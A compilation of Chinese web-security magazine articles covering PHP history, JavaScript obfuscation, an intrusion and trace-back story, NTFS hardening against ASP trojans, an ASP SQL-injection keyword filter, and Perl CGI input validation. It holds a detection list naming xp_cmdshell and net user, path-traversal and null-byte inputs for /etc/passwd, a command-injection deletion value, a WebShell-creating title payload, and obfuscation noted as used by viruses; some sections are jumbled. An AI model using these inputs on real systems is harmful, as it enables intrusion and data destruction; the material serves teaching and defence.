在实践当中，为了得到更高的 Web 服务器安全性，服务器端的编码技术变得非常困难。那些明显需要与服务器进行的数据交互降低了服务器端的安全性，这就是为什么除非万不得已，不要在服务器端使用脚本的原因。

使用本文中描述的方法，当 Apache、PHP 或者网站应用本身出现新漏洞时，可以降低被突破的危险。当然，本文中并没有将所有的安全化 PHP 技术罗列出来，而仅仅是介绍了一些最基本的技术。虽然采用这些技术可以大大提高它们的安全性，但是我们不能忘记，整体的安全性不是由 Apache 或者 PHP 的配置决定的，而是更大程度上决定于网站应用本身。
## PHP 的简要历史

1994 年秋季，Rasmus Lerdorf 开始构思 PHP，早期的非发行版本被用在他的主页上，以追踪谁在看他的在线简历。1995 年年初第一版本出现，当时 PHP 只被认为是个人主页开发工具。它由一个非常单纯的、只能理解很少数特殊宏的分析引擎和一些用在主页后端的通用工具组成，如留言簿、计数器和其他一些东西。这个分析器在 1995 年年中被重写并被命名为 PHP/FI 第三版，后来 Rasmus 写的另外一个包用于解析 HTML 表单数据。他结合了个人主页工具脚本和表单解析器，并加上 mSQL 支持，这样就产生了 PHP/FI。PHP/FI 以令人惊奇的速度成长，人们开始把自己的代码贡献给它。

后来，PHP 的发展也发生了变化，由 Rasmus 自己偏爱的和几个开发者的项目变成一个更有组织的团体成就。Zeev Suraski 和 Andi Gutmans 重写了解析器，这个新的解析器成为 PHP 版本 3 的基础。许多有用的代码从 PHP/FI 继承到 PHP3，并且很多是完全重写的。

## PHP是什么？

PHP 的全名蛮有趣的，它是一个嵌套式的缩写名称：“PHP: Hypertext Preprocessor”。PHP 是一种 HTML 内嵌式语言（类似 IIS 上的 ASP），而 PHP 独特的语法混合了 C、Java、Perl 以及 PHP 式的新语法。它可以比 CGI 或者 Perl 更快速地执行动态网页。

## PHP能做什么？

PHP 可以做任何其他 CGI 程序所能做的事，例如收集表格数据、生成动态页面内容，或者收发 cookies。可能最强大、最有意义的特性是 PHP 支持大范围的数据库；编写一个支持数据库的 Web 页面是难以置信的简单。

PHP 在资料库方面的丰富支援，也是它迅速窜红的原因之一。它支援下列的资料库或资料表：

- Adabas D
- DBA
- dBase
- dbm
- filePro
- Informix
- InterBase
- mSQL
- Microsoft SQL Server
- MySQL
- Solid
- Sybase
- ODBC
- Oracle 8
- Oracle
- PostgreSQL

而在 Internet 上它也支援了相当多的通讯协定（protocol），包括了与电子邮件相关的 IMAP、POP3；网管系统 SNMP；网络新闻 NNTP；账号共用 NIS；全球资讯网 HTTP 及 Apache 伺服器；目录协定 LDAP 以及其他网路的相关函式。

除此之外，用 PHP 写出来的 Web 后端 CGI 程式，可以很轻易地移植到不同的作业平台上。例如，先以 Linux 架的网站，在系统负荷过高时，可以快速地将整个系统移到 SUN 工作站上，不用重新编译 CGI 程式。面对快速发展的 Internet，这是长期规划的最好选择。

| 难度等级 | 中 |
|---|---|
| 适合读者 | 脚本编写人员 |
| 前置知识 | JavaScript 编写技术 |

**脚本小子：** 黑防攻防实验室到目前为止开放了 3 轮，很多朋友参加。前文介绍了网页加密与解密背景，这里系统讲解如何使用 JavaScript 对网页进行加密解密。

## JavaScript 加密解密

### 终极指南
文 / icyfoxlovelace / 冰狐浪子

> 在做网页时，最让人烦恼的是自己辛苦写出的 JavaScript 代码常被别人轻易看见。本文结合实践，探讨网页中 JavaScript 代码的加密与解密技术。

```html
<SCRIPT LANGUAGE="JavaScript">
alert("黑客防线")
</SCRIPT>
```

JavaScript 提供了特殊字符如 `\n`、`\r`、`\'`，以及八进制/十六进制转义（如 `\141`、`\x61`）和 Unicode（如 `\u9ED1`）。

- 1. 最简单的加密解密：
  - 使用 `escape()` 和 `unescape()` 对字符串编码与解码。
  - 可配合 `eval(codeString)` 执行解码后的代码。
- 2. 转义字符 `\` 的妙用。
- 3. 使用 Script Encoder 进行编码。

```text
alert%28%22%u9ED1%u5BA2%u9632%u7EBF%22%29%3B
%61%6C%65%72%74%28%22%u9ED1%u5BA2%u9632%u7EBF%22%29%3B
```

```html
<SCRIPT LANGUAGE="JavaScript">
var code=unescape("%61%6C%65%72%74%28%22%u9ED1%u5BA2%u9632%u7EBF%22%29%3B");
eval(code)
</SCRIPT>
```

```html
<SCRIPT LANGUAGE="JavaScript">
eval("\141\154\145\162\164\50\42\u9ED1\u5BA2\u9632\u7EBF\42\51\73")
</SCRIPT>
```

```html
<SCRIPT LANGUAGE="JavaScript">
eval("\x61\x6C\x65\x72\x74\x28\x22\u9ED1\u5BA2\u9632\u7EBF\x22\x29\x3B")
</SCRIPT>
```

```html
<SCRIPT LANGUAGE="JavaScript">
alert("\x61\x6C\x65\x72\x74\x28\x22\u9ED1\u5BA2\u9632\u7EBF\x22\x29\x3B")
</SCRIPT>
```

生成的编码。代码如下：

```html
<SCRIPT LANGUAGE="JavaScript">
var Senc=new ActiveXObject("Scripting.Encoder");
var code='<SCRIPT LANGUAGE="JavaScript">\r\nalert("黑客防线");\r\n</SCRIPT>';
var Encode=Senc.EncodeScriptFile(".html",code,0,0,"\"");
alert(Encode);
</SCRIPT>
```

编码后的结果如下：

```html
<SCRIPT LANGUAGE="JScript.Encode">
#@~^FgAAAA==@#@&ls`DDJ'黑客防线...
r#p@#@&FgMAAA==#@</SCRIPT>
```

够难看懂吧？可惜相应的解密工具早已出来，而且连解密网页都有！因为其解密网页代码过多，我就不多说了，给大家介绍一下我独创的解密代码，如下：

```html
<SCRIPT LANGUAGE="JScript.Encode">
function decode(){
#@~^FgAAAA==@#@&ls`DDJ'黑客防线...
}
alert(decode.toString());
</SCRIPT>
```

咋样？够简单吧？它的原理是：编码后的代码运行前 IE 会先对其进行解码，如果我们先把加密的代码放入一个自定义函数如上面的 `decode()` 中，然后对自定义函数 `decode` 调用 `toString()` 方法，得到的将是解码后的代码！

如果你觉得这样编码得到的代码 `LANGUAGE` 属性是 `JScript.Encode`，很容易让人识破，那么还有一个几乎不为人知的 Window 对象方法 `execScript()`，其原型为：

`window.execScript(sExpression, sLanguage)`

参数：

| 参数 | 说明 |
|---|---|
| sExpression | 必选项：字符串（String）。要执行的代码。 |
| sLanguage | 必选项：字符串（String）。指定执行代码的语言。默认值为 Microsoft JScript。 |

使用时，前面的 `window` 可以省略不写，利用它我们可以很好地运行编码后的 JavaScript 代码，如下：

```html
<SCRIPT LANGUAGE="JavaScript">
execScript('#@~^FgAAAA==@#@&ls`DDJ...','JScript.Encode')
</SCRIPT>
```

你可以利用方法 2 对其中引号内的字符串再进行编码，使 `JScript.Encode` 以及编码特征码 `#@~^` 不出现，效果会更好！

### 4．任意添加NULL空字符（十六进制00H）

一次偶然的实验，我发现在 HTML 网页中任意位置添加任意个数的“空字符”，IE 照样会正常显示其中内容，并正常执行其中的 JavaScript 代码，而添加的“空字符”在一般编辑器查看时会显示为空格或黑块，使得源码很难看懂。

“空字符”会变成“空格”，利用这个原理加密结果如下：（其中显示的“空格”代表“空字符”）

```html
<S C R I P T  L A N G U A G E=...>
...alert("黑 客 防 线")...
</S C R I P T>
```

是不是显得乱七八糟？如果不知道方法的人很难想到要去掉里面的“空字符”（00H）的！

### 5．无用内容混乱以及换行空格TAB大法

在 JavaScript 代码中我们可以加入大量无用字符串或数字，以及无用代码和注释内容等，使真正的有用代码埋没在其中，并在有用代码中加入换行、空格、TAB，或把正常字符串用 `\` 换行，从而使代码难以看懂！我加密后的形式如下：

```javascript
<SCRIPT LANGUAGE="JavaScript">
"xajg...";1234567800
...var $=0;alert// ...
/* ... */
"黑\
\
客\
防线"//...
/* ... */
</SCRIPT>
```

这样的代码，至少我看到是不会有心思去分析它的，你呢？

### 6．自写解密函数法

这个方法和 1、2 差不多，只不过是自己写函数对代码进行解密，很多 VBS 病毒使用这种方法对自身加密来防止特征码扫描。下面是我写的一个简单的加密解密函数：

```javascript
<SCRIPT LANGUAGE="JavaScript">
function compile(code){
  var c=String.fromCharCode(code.charCodeAt(0)^code.length);
  for(var i=1;i<code.length;i++){
    c+=String.fromCharCode(code.charCodeAt(i)^code.charCodeAt(i-1));
  }
}
</SCRIPT>
```

```javascript
alert(escape(c));
compile('alert("黑客防线")')
</SCRIPT>
```

运行得到加密结果为：`%CD%D1%D7%E6%9CJ%u9EF3%uFA73%uFD44%u14F1%u7DE1KG`

相应的加密后解密的代码如下：

```javascript
<SCRIPT LANGUAGE="JavaScript">
function uncompile(code){
  code=unescape(code);
  var c=String.fromCharCode(code.charCodeAt(0)-code.length);
  for(var i=1;i<code.length;i++){
    c+=String.fromCharCode(code.charCodeAt(i)-c.charCodeAt(i-1));
  }
  return c;
}
eval(uncompile("%CD%D1%D7%E6%9CJ%u9EF3%uFA73%uFD44%u14F1%u7DE1KG"));
</SCRIPT>
```

这样的代码很多人不能解开哦！

- 7．利用错误加密：  
利用 `try{}catch(e){}` 结构对代码进行测试解密，虽然这个想法很好（呵呵，夸夸自己），因为实用性不大，我仅给个例子：

```javascript
<SCRIPT LANGUAGE="JavaScript">
var a='alert("黑客防线")';
var c='';
for(var i=0;i<a.length;i++){
  c+=String.fromCharCode(a.charCodeAt(i)^61);
}
alert(c);
// 上面的是加密代码，实际使用时不会把密写上
// 现在产生 c 就是加密后的代码
// 下面 t() 先假设初始密码为 0，解密执行，
// 遇到错误则把密码加 1，然后接着解密执行，直到正确运行
var d=c;      // 保存加密后的代码
var b=0;      // 假定初始密码为0
function t(){
  try{eval(c);}catch(e){
    c='';
    for(var i=0;i<d.length;i++){
      c+=String.fromCharCode(d.charCodeAt(i)^b);
    }
    b+=1;
    t();
  }
}
</SCRIPT>
```

好了，写完了，基本上 JavaScript 的加密就这些啦。每种加密都有相应的解密方法，但如果熟练运用上面介绍的方法并结合使用，相信能解密你 JavaScript 代码的人几乎没有啦。即使有人可以解密，也因为他本身比较精通 JavaScript 脚本，完全可以自己写，也就没有必要盗用你的代码，所以你是安全的咯！呵呵。

## 被黑VS追踪

朋友的网站服务器是昨天被黑的，机器上除了系统分区文件还算完整，孤零零的首页被涂改后仍存在外，网站源码与很多数据被清空，做得十分恶毒。而有意思的是，朋友找上我的时候我正在写一篇关于黑客/骇客的 RPWT 文章……

被入侵的服务器操作系统是 Windows 2000，安装了 IIS5.0，并开启了 MSSQL，当然这些是在我远程登录上服务器后得到的。管理员还算称职，系统打上了最新补丁，开了端口过滤（只开放了 21、80、1433），SQL、NT 没有弱口令，安装了防火墙与杀毒软件，应用程序过滤只留下了 ASP 与 ASA。查看启动程序与运行进程也没有什么值得注意的地方，再用扫描器扫了一遍，发现没有可利用的漏洞，邪门了！

后来查阅系统日志也没有太大的进展，于是笔者从首页方面入手，上面写着“论坛有漏洞，我帮你删了吧。Hacked by xxxx（xxxx为某网名）”，跑去 www.google.com 搜索此 ID，发现在一些黑客论坛上这个 ID 活跃着，看来非此君莫属。目标锁定后就是尽可能找到他的真实资料，在另一朋友帮助下获知此君在一黑客论坛上发表了攻击朋友服务器的帖子（不知出于什么心态），急急追过去并切下图，嘿嘿，这可是罪证哟。最后查获到此君也有个人网站，看来可以从域名上入手，于是查找域名注册资料（这是个好办法），得到他的个人身份资料，接着联系他的 QQ 得到不友好的对待，不过目的也已达到——确认了是他做的好事，再打电话去他家里“汇报”了此事，最后回头转一下他的网站，上面有一个 BLOG 与同学录，又得到了他学校的资料和宿舍电话。几天后我通过校方领导对他施压后，事情终于得到解决。在与他聊天时问是通过什么漏洞入侵，对方淡淡地说，通过上传 ASP 木马。

图 1

## 安全设置

再回过头来看服务器的设置，为防止 ASP 木马，其实服务器已修改 ProgID 的值，在注册名里对 `Scripting.FileSystemObject` 进行重命名，可能论坛里通过改此 ProgID 值实现了 FSO 权限，导致被入侵成功并删除数据吧？等等，为什么数据会被删除？难道 Guest 权限有删除权？笔者于是打开服务器上的“我的电脑”，在 D 盘盘符上选择属性，并查看安全页，发现竟然是“Everyone”，并享有完全权限，看来问题就在这儿了，没有好好地限制用户权限。将症结报给朋友，接着当然是亡羊补牢。

在 ASP 木马大行其道的今天，很多服务器、虚拟主机都通过设置禁用了 ASP 的组件 FileSystemObject（简称为 FSO）达到不被入侵的目的；引起的后果就是无法很好地支持 FSO，也就是说无法满足客户的要求（这个组件为网站服务对诸如数据库备份、文件复制、信息管理等操作提供支持，缺少或禁止会造成一定功能上的损失），某些技术上较差的管理员出于无奈只能采取“不作为”的方式——不防护，碰运气吧。

究竟有没有既允许 FSO 又不影响服务器安全的设置？也就是说不同的虚拟主机用户之间只能使用此组件访问设置的目录，而对其他目录无访问权限？实际上只要我们可以很好地利用 NTFS 分区下允许对目录进行限制访问的设置即可解决，下面让我们来看一下应如何设置吧。

假如我们有一个网站名为 www.test.com，所在目录为 `D:\www\test`，我们应如何设置它才能让 ASP 木马只能访问这一目录呢？具体的操作如下。

- 1. 设置 Guest 权限的账号

打开“控制面板”→“计算机管理”→“本地用户和组”→“用户”→在右栏点右键并选择“新用户”。在弹出的窗口中按实际输入“用户名”“全名”“描述”“密码”“确认密码”，同时取消“用户下次登录时须更改密码”选项，选中“用户不能更改密码”和“密码永不过期”。这儿假设用户名为 Web_test，密码请设复杂一些（如图 1 所示），设置完成后点击创建。在创建好的账号上点击右键，选择属性对之进行权限更改。选中“隶属于”选项页，点击“添加”，双击“Guests”组，并确定，返回“隶属于”页面后删去默认组“Users”，只留下“Guests”组。

- 2. 设置目录访问权限

微软在给出的“Windows 2000 Server 基准安全注意事项（全文参阅 http://www.chinaunix.net/jh/29/16040.html）”中写道：“验证所有磁盘分区是否都用 NTFS 格式化：NTFS 分区提供访问控制和保护功能，这些都是 FAT、FAT32 或 FAT32x 文件系统所无法提供的。要确保服务器上的所有分区都使用 NTFS 格式化。如果有必要，请使用转换实用程序在不毁坏数据的情况下将 FAT 分区转换为 NTFS。警告：如果使用转换实用程序，它将把转换后的驱动器的 ACL 设置为‘Everyone：完全控制’。有关还原 Windows 2000 计算机上默认 NTFS 权限的信息，请参阅 Microsoft 知识库文章 Q266118。”可见默认安装系统后的 NTFS 需要经过安全设置才具有意义。

在服务器上打开“我的电脑”→“需要定义权限的目录（这儿为 `D:\www\test`）”→右击目录选中“属性”→转到“安全”选项卡，在这我们可以看到有哪些账号拥有访问这个目录的权限以及详细的访问权限。默认安装后出现的是“Everyone”具有完全的权限。点“添加”，将我们的系统管理员账号（比如 idc2005s）添加上（不推荐添加管理员组 Administrators，因为要是非法入侵后创建管理员成功，也可以拥有访问权限），并给予“完全控制”或相应的权限，注意不要添加上“Users”“Guests”“IUSR_机器名”这几个组；再添加上我们刚创建的 Web_test 账号，选中“修改”项，使我们能对此目录进行写入数据；最后取消左下角的“允许将来自父系的可继承权限传播给该对象”前面的选中状态（如图 2 所示），到这儿完成目录访问权限设置。

图 2

> 这儿一定要添加登录你的管理员账号，如果你有多个管理员账号，请只允许可访问控制此目录的一个或几个管理员账号，否则你将不能再操作此目录。

### 3. 设置虚拟主机访问权限

打开“控制面板”→“管理工具”→“Internet 信息服务”→在我们需要设置的 www.test.com 的网站上点击右键并选中“属性”→“目录安全性”→“编辑”（如图 3 所示）→再选中“编辑”进入匿名访问使用账号设置→选中“浏览”以便选择我们刚创建的账号（如图 4 所示）→在返回的窗口输入两次刚才我们设置的 Web_test 密码后点确定完成设置。

设置完成后，虚拟主机“web_test”的用户使用 ASP 的 FileSystemObject 组件也只能访问自己的目录：`D:\web\test` 下的内容，当入侵者通过 ASP 木马试图访问其他目录或盘符时，会出现诸如“没有权限”“硬盘未准备好”“500 服务器内部错误”等出错提示。

如果你的服务器有多个网站（多虚拟主机），你可以按上面 3 个步骤进行多次设置，最后有必要提醒你一下：IUSR_机器名这个账号可以禁止掉，默认的 Guests 账号也可以禁止。这样设置对普通个人电脑有什么意义呢？我认为最大的作用就是防止或限制某些个人目录或分区被读写或删除，在多人共用一台电脑的情况下更显得意义重大（可以省略第三步设置），同时在被入侵前如果对系统所在分区读写权限进行合理设置，即便被入侵也不能对系统区（一般为 C 盘）或其他规定的分区、目录进行各种操作。

由此可见不管是菜鸟还是老鸟，在自己的机器上合理地配置用户权限都是具有极大意义的。在设置完成后，你是否对系统安全有了进一步的了解？对反入侵有了进一步的信心？顺带提一下，笔者朋友的服务器数据基本被恢复了，采用的是“无中生有”的高招，利用 RecoverNT 和 FinalData 等软件对丢失或删除文件进行恢复，碰到此问题的朋友穷途末路中也不妨一试。

## 防篡改安全 ASP 个人主页

文/图 菜鸟008

暑假在家好无聊，无事可做，就到网上溜达溜达，发现很多的网站有脚本注入漏洞，以前别人说中国的网络安全性是多么差，我还不信，现在终于相信了。由于 SQL injection 是脚本与数据库相结合的攻击方式，所以防范这种漏洞，要从脚本和数据库两方面下手，本文主要针对一些无 ASP 基础、网站形式为代码站下载模板使用的用户，就是直接用别人的程序的朋友们。

本文以“我们的天空”个人主页系统为例，“我们的天空”主要功能有新闻、相册、日记、留言本、文章、计数统计、作品展示等，界面非常漂亮，很适合做个人主页……我们就从这里下手吧，打造自己的安全小站。在 http://dong.6088.net（我们的天空）站里面有代码下载，我们下载下来先看代码。打开 Shoupic.asp，代码如下：

```asp
<!--#include file="conn.asp"-->
<!--#include file="bbsz.asp"-->
<%
dy_id=request.QueryString("id")
if dy_id<>"" then
set rs=Server.CreateObject("adodb.recordset")
sql="select * from dyload where dy_id='"&dy_id&"'"
rs.open Sql,conn,1,1
%>
<html>
<title><%=sy_name%>风采</title>
<body oncontextmenu="return false" onselectstart="return false" ...>
<table width="100%" height="100%" border="0" cellpadding="0" cellspacing="0">
<tr>
<td width="100%" align="center" valign="middle">
```

## 脚本攻击与防范 / SCRIPT ATTACK DEFENCE

```asp
src="<%=rs("dy_content")%>" border="0"></td>
</tr>
</table>
<%
rs.close
set rs=nothing
conn.close
set conn=nothing
end if%>
```

好像什么都没有过滤，很可怕。再看看其他的，Showdaily.asp、Showwz.asp 和 Download.asp 都没有进行任何的过滤，这就是程序员的安全水平！我们写一个文件，代码如下：

为了防止账户泄露，数据库里的数据需要采用 MD5 算法加密。MD5 算法是一种不可逆的算法，只能采取穷举密码的方法破解，如果密码是十八位的，那么破解就难了。行动！请查看光盘里“源代码”栏目里 MD5.asp 文件，复制它到根目录下，找到 Admin_login.asp 修改为以下代码：

```asp
<%
StrTemp=request.ServerVariables("Server_name")&request.ServerVariables("url")&"?"&Request.QueryString
StrTemp = LCase(StrTemp)
If Instr(StrTemp,"select%20") or Instr(StrTemp,"insert%20") or Instr(StrTemp,"delete%20from") or Instr(StrTemp,"count(") or Instr(StrTemp,"drop%20table") or Instr(StrTemp,"update%20") or Instr(StrTemp,"truncate%20") or Instr(StrTemp,"asc(") or Instr(StrTemp,"mid(") or Instr(StrTemp,"char(") or Instr(StrTemp,"xp_cmdshell") or Instr(StrTemp,"exec%20master") or Instr(StrTemp,"net%20localgroup%20administrators") or Instr(StrTemp,"net%20user") or Instr(StrTemp,"%20or%20") ... then
Response.Write("<script language='javascript'>alert('非法操作!');history.back();</script>")
Response.End
End If
%>
```

```asp
<%@LANGUAGE="VBSCRIPT" CODEPAGE="936"%>
<!--#include file="conn.asp"-->
<!--#include file="md5.asp"-->
<%
d_adm=trim(request.form("adm"))
d_adm=replace(d_adm,"'","")
d_pws=trim(request.form("pws"))
d_pws=replace(d_pws,"'","")
if d_adm="" or d_pws="" then
  response.Write("用户名和密码不能为空！")
else
  set rs=Server.CreateObject("adodb.recordset")
  sql="select * from dy_admin where adm='"&d_adm&"' and pws='"&md5(d_pws)&"'"
  rs.open sql,conn,1,1
  if not rs.eof then
    session("oursky")="oursky"
    response.Redirect("admin.asp")
  else
    response.Redirect("admin_login.asp")
  end if
  rs.close
  set rs=nothing
  conn.close
  set conn=nothing
end if
%>
```

这段代码过滤了很多东西，不光可以用于这个网站里面，还可以用于其他站点。把上面的代码另存为 Safe.asp，在 Showdaily.asp、Showpic.asp、Showwz.asp 等文件插入以下代码：

```asp
<!--#include file="safe.asp"-->

如 showpic.asp：
<!--#include file="conn.asp"-->
<!--#include file="jbsz.asp"-->
<!--#include file="safe.asp"-->
```

在 URL 后添加个单引号看看，被过滤了吧。提示的字符可以修改，想玩的朋友也可以搞点 BT 的。这样的方法对付现在只会用 SQL 注入工具的菜鸟是有效的，而且还加入了 `%27` 过滤，可以用于 MSSQL 数据库，脚本安全有保障了，不过碰到那些传说中的高手就不行了，只能开始第二阶段数据库漏洞修补了。

修改好了，但还没有全部完成。由于你的数据库里面的密码还是明文保存的，现在登录的话，密码肯定是错误的，这里要用到 MD5 密码转换器，如图 2 所示。用 Access 打开数据库，管理员表单是 DY_admin，然后在 PWS 字段下把密码修改成 MD5 值（示例：123456789 对应 323b453885f5181f），以后就可以用 123456789 登录了；再把数据库路径修改一下，相信没有多少人能攻破你的网站了。

> 很多朋友告诉我一定要不断总结自己学过的东西，并且不要吝啬拿出来与别人分享，这样才有技术的沉淀和交流，也才有彼此的促进。于是我把一部分学习笔记整理了一下，加上一些自己平时总结的学习经验，和大家一起讨论。希望对大家有所帮助，也恳请大家提出问题，指导我前进。

## 浅溪抓云空成雨

## 浅谈 CGI 脚本安全

文／[L.T.S] Jambalaya

CGI 脚本是在网络服务器上解释执行的，然后将执行的结果返回给客户端（就是我们的浏览器）。因为 Perl 功能强大、灵活性高，支持所有流行的操作系统，且“价格”低（免费），受到很多 CGI 编程者青睐。但任何语言本身都谈不上绝对安全，安全取决于使用它的人；如果编写脚本时缺乏安全意识，代码就不会具备安全的“功能”。

这段代码基本没有太多改动，演示时把路径做了调整。该代码用于浏览其他网页，如 `http://127.0.0.1/myhome/bbs/unsafecodz.cgi?page=something.html`，会浏览 `something.html`。其中 `$filename` 来自 `param` 提取的 `page` 参数，未做严格审查，仅检查是否为空。恶意用户可直接指定其他文件（如 `cgi.asp` 或任意文件）读取源码，甚至通过 `../` 切换目录；在 Linux/UNIX 下还可能读取 `/etc/passwd` 等敏感文件。

## 注意变量的处理

- 1. 用户的输入是不可信任的

当谈到安全编程时，经典观点是 “All input is invalid（所有用户输入都有害）”。凡是用户可输入的地方都应重点关注。文中以某站点在 1999 年遭入侵为例，说明同类输入校验缺陷可导致严重后果。

```perl
# unsafecodz.cgi
$filepath="/myhome/bbs/";
$filename=$query->param('page');
if ($filename eq "") {
  $filename="error.html";
}
$filename="$filepath/$filename";
open(FILE,$filename);
while(<FILE>) { print $_; }
close(FILE);
```

后来有人尝试加固：限制后缀为 `html`，例如将文件名拼接为 `$filepath/$filename.".html"`。但该方式忽略了 NULL 字符问题，仍可被绕过。

```text
.../unsafecodz.cgi?page=unsafecodz.cgi%00.html
```

进一步加固时又加入存在性判断（如 `-e $filename`），但同样可被 NULL 字符绕过，因此仍然可以成功读取不应访问的目标。

```perl
if (($filename eq "") || (!-e $filename)) { ... }
```

```text
.../unsafecodz.cgi?page=unsafecodz.cgi%00.html
```

结论：仅靠后缀限制或简单文件存在性判断并不足够，必须对用户输入进行严格、完整的安全校验。

也就是说，`(-e $filename)` 将会认为文件是存在的，因为 “%00” 后面的东西在 `-e` 中会被忽略。

OK，到这里我们停一下，我们应该能注意到刚才是什么改变了程序本来的流程。就是那个 NULL 字符（`\0`），想想还有什么可以用来改变程序的流程呢？`\t`、`\r`、`\x0B`、`\n`、空格这些字符都很有用。大家是否还记得前不久的 DVBBS 论坛漏洞，就是由于上传中的 NULL 字符所引起的，很多时候你会发现技术突破不过就是你的技术积累沉淀后的爆发。

和上面一样。说到这里其实都是一句话：All input is invalid。作为代码的编写者，要注意所有用户可以直接或间接控制的地方。

到这里你可能觉得似乎明白了，但我敢说其实你并没有真的明白。Cookie 的控制是这里面最简单的一个例子。隐式输入很多时候，不要说普通的代码编写人员，就连很多 Web 安全高手都不见得能够非常容易地找到，找到它们更多的是需要凭自己的经验和直觉。你可能觉得我言过其实了，其实并没有，连傻瓜都能看出来的隐式输入当然容易找到，但是许多危害更大的并不那么容易发现，所以这个时候多是凭借自己的经验和对漏洞“味道”灵敏的嗅觉。

### 2．隐式输入的危害

用户的输入分为两种，显示输入和隐式输入。上面的例子没有注意到用户的输入导致问题的出现，因为那是用户直接输入的，算是显示输入吧。现在很多程序员都会下意识地去保护自己程序的安全性，或者他们本身就了解一些安全的重要性，都会加一些有用或者没用的限制，用户直接输入可利用的部分越来越少，于是隐式输入就开始受到关注。这里说的并不仅仅是 Perl CGI，包括现在的 ASP 注入攻击，还有本来是 N 年前的技术现在才浮出水面的 PHP 注入攻击。仔细回顾一下你就会发现很多都是隐式输入所引起的，隐式输入都是不被程序员注意或者容易被忽略的地方。

Cookie 应该算是隐式输入中比较典型的例子，我们就用 Cookie 来做例子吧！

解决方法其实很简单，就是严格控制用户的输入。所谓严格控制并不只是过滤，因为过滤难免有漏网之鱼，限定要比过滤来得轻巧和严格。把用户的输入控制在你规定的范围内，可以用一个正则表达式来给用户划一个范围，指定用户可以输入的字符或者数字，如果用户输入与你的规定不匹配，则不允许通过。至于如何做限定，用正则表达式会很简单，我用 E-mail 的例子说明：

```text
---- Code Start ----
#unsafecodz2.cgi
...
18. $filename=$query->Cookie('nameCookie');
19. $filename="$filepath/".$filename;
20. open(FILE,$filename);
21. while(<FILE>)
22. {
23.     print $_;
24. }
25. close(FILE)
---- Code Ends ----
```

```perl
if ($email !~/^[\w.-]+@[\w.-]+$/) #如果不和里面的规定字符匹配则报错。
{
    &error("输入不正确，难道您就是传说中的黑客？");
}
else
{
    # 输入正确，继续操作。
}
```

注意星号的那一行，这只是提取 Cookie 而已，的确不是用户的直接输入，但却是用户可以间接控制的。如果恶意用户通过 NC 提交如下内容，后果是什么呢？

E-mail 的一般格式是 `fakename@fakename.org`，我们只希望用户输入字符、数字、@、“.”、“-”、“_”，永远不要幻想用户会按照你所希望的输入，除非你给他们划定范围。在这个正则表达式中，要求用户只能输入英文大小写字符、数字和“@”、“-”、“_”、“.”这几个字符，如果输入其他则报错。

```text
GET /myhome/unsafecodz2.cgi HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)
Host: 127.0.0.1
Connection: Keep-Alive
Cookie: nameCookie=/../../../../../../etc/passwd
...
我们看到这行中：
Cookie: nameCookie=/../../../../../../etc/passwd
```

## 注意危险函数

- 1. 有几个危险函数在程序中用得越少越安全（这么说好像有点不严格，呵呵），因为它们很有可能就是黑客的突破口。这些函数是：`system()`、`open()` 和 `exec()`。

`system()` 和 `exec()` 都可以执行系统命令，如 `system("del f:\\myhome\\$filename")`，如果 `$filename` 也是通过表单从用户得到的，我们在 `$filename` 处输入 `1.txt; del f:\\myhome` 就删除了整个目录。其实 `system()` 函数可以执行系统命令，如果对其中变量缺少严格限制容易引起安全问题，程序员们或多或少地知道一些，但是由于快速开发或者项目时间紧，为了应付差事，往往不会理会安全隐患。

`open()` 函数也是我们应当留意的地方。大家不要误会，`open` 函数本身是没有什么的，而是里面的用户输入数据导致的问题集中在 `open()` 函数上。

这里攻击者可以通过构造 Cookie 来控制网站，结果就……脚本是用来打开文件的，我们看到第一个程序就是因为 `open` 函数引起的泄漏源代码。如果对那些向 CGI 文件中写入的字符不加以控制或者过滤不完全，那么写入任意语句就很危险了，一切我们还是让代码自己说明。

```perl
my $file = "$bdir/$forum$inforum/$intopic.pl";

if (open(FILE, ">$file")) {
    flock(FILE, 2) if ($OS_USED eq "Unix");
    print FILE "...";
    close(FILE);
}
```

这段代码大家眼熟吧，这就是 LB5K 论坛 `Post.cgi` 中的一段代码。我觉得这段代码应该最能说明问题，大家注意这里的 `open(FILE, ">$file")`，打开文件准备向里面写入，后面的 `print` 就是向指定文件中写入。论坛的本意是将用户的帖子标题简单地保存在一个 `.pl` 文件中，但是编写者没有注意到帖子的标题用户可以任意控制，恶意用户输入 `system` 函数就可以执行任意指令，如果标题是 `System @ARGV`，那么所保存的 `.pl` 记录文件中的第一行也是 `System @ARGV`，这样如果去调用 `.pl` 文件就形成了一个 WebShell。

- 2. 特殊字符。大部分情况下在用户输入的附近，程序员为了保护程序会过滤掉一大批特殊字符，然后用户输入的恶意语句就无法执行了。这个部分其实要注意的东西很多，为了节省版面简言之吧。看看下面的字符你是不是都过滤掉了？
- 1. 反引号 `` ` ``：反引号在 Perl 应用中功能很大，它像 `system` 一样可以执行系统命令。
- 2. 逗号 `,`：很多时候可以做许多事情，语义替换后效果可能与原表达式等价。
- 3. 分号 `;`：可以截断程序流程。

```perl
`System(dir c:\)`
$a = dir c:\; print $a;
```

```perl
$a=dir c:\, print $a;
$a=dir c:\; print $a;
```

```perl
system("del ./path/$file");
```

- 4. 反斜杠 `\`：巧妙输入可绕过过滤规则。
- 5. 尖括号 `< >`：可用于跨站脚本相关注入。
- 6. 美元符 `$`：在 Perl 中有特殊语义，可能改变语句结构。
- 7. 换行符等 `\t \r \x0B \n`：可影响程序执行流程。

## 不完全验证

验证不完全和上下文逻辑错误是程序员最容易疏忽的地方。做 Web 安全如果能有一个严谨的思维那就再好不过了，因为用严谨的思维去对付那些逻辑错误应该是很容易发现的（个人看法）。如果你不幸和我一样没有一个成熟而又严谨的思维，那么就多练习多总结来增长自己的经验吧。勤能补拙！其实所谓验证不完全就是一种逻辑思维能力的不完善，建议先学一下离散数学。

```perl
# adminchecking.cgi
$membername = Cookie(inputname);
$memberpassword = Cookie(inputpassword);
$filetoOpen = "$filepath/$membername.cgi";

if (-e "$filetoOpen") {
    open(FILE, "$filetoOpen");
    $line=<FILE>;
    close(FILE);
    ($name,$password,$vip)=split(/\t/,$line);

    if (($supername eq lc($name)) && ($superpassword eq $password) && ($vip eq 'super')) {
        # 进入管理员权限
    }
}
```

